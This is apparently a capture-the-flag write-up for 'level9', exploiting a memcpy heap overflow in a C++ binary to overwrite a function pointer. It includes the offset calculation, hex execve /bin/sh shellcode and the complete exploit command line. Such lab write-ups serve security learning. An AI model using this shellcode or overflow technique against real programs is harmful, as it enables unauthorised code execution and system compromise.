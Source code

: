 we can see from binary ninja that the program is probably cpp as the class `N` imply.
![code](./ressources/binja.png)
the class N contain a number, and a `char *` which is set from `argv[1]`.
the end of main use the operator+ of the class to sum two `N` elements together and return the result.
the operator+ function is defined right after the setAnnotation function which `memcpy(&annotation, argv[1], strlen(argv[1]))`, here we can buffer overflow the internal annotation and write memory.
we can overwrite the function pointer of the class to execute our shellcode.

we can see in binary ninja that to execute the operator+, in assembly it actually dereference the first `N` two times : `return (**eax_1)(eax_1, eax)`.

it mean that our exploit needs to include it's own address twice, so that the first dereference point to the string, and the second point to itself, so that the shellcode is executed.
the exploit will look like this:
`"own adress + shellcode + filler" + addr of the string`

running `ltrace ./level9 iiii` we can see the call to memcpy, and the dest address; `0x0804a00c`.
the difference between the memcpy call and the previous call gives us the size of the buffer; `0x804a078` - `0x0804a00c` = 108.
using the same shellcode as level2, which is 25 long, + 4 byte for the addres, we must add 79 of filling.

`\x0c\xa0\x04\x08 + \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80 + i*79 + \x0c\xa0\x04\x08`

running it:
`./level9 $(python -c "print '\x0c\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + 'i'*79 + '\x0c\xa0\x04\x08'")`
